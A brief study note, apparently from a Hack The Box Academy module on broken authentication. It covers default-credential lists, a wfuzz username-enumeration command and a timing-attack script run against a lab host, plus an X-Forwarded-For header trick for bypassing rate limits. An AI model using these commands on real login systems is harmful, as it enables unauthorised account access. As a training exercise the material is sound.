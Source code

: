## Info

## Brute forcing

**Default Creds**

- https://www.cirt.net/passwords
- https://github.com/danielmiessler/SecLists/blob/master/Passwords/Default-Credentials/default-passwords.csv
- https://github.com/scadastrangelove/SCADAPASS/blob/master/scadapass.csv

**User brute forcing**

`L3pr3ch4un@htb[/htb]$ wfuzz -c -z file,/opt/useful/SecLists/Usernames/top-usernames-shortlist.txt -d "Username=FUZZ&Password=dummypass" --hs "Unknown username" http://brokenauthentication.hackthebox.eu/user_unknown.php`

- Wordlists: https://github.com/danielmiessler/SecLists/tree/master/Usernames

**Timing Attack**

- Script: https://academy.hackthebox.com/storage/modules/80/scripts/timing_py.txt
- CMD: `L3pr3ch4un@htb[/htb]$ python3 timing.py /opt/useful/SecLists/Usernames/top-usernames-shortlist.txt`

**Hash Time**

- sha1:   0:00:00.000082
- scrypt: 0:00:03.907575
- bcrypt: 0:00:22.660548

**Weak Rate limiting**

![](https://academy.hackthebox.com/storage/modules/80/06-captcha_id.png)

`"X-Forwarded-For": "1.2.3.4"`

## Brute Forcing Passwords



## Refrences

- https://www.cirt.net/passwords
- https://github.com/danielmiessler/SecLists/blob/master/Passwords/Default-Credentials/default-passwords.csv
- https://github.com/scadastrangelove/SCADAPASS/blob/master/scadapass.csv
- https://github.com/danielmiessler/SecLists/tree/master/Usernames
- https://github.com/danielmiessler/SecLists/tree/master/Usernames/top-usernames-shortlist.txt
- https://en.wikipedia.org/wiki/List_of_the_most_common_passwords
- 
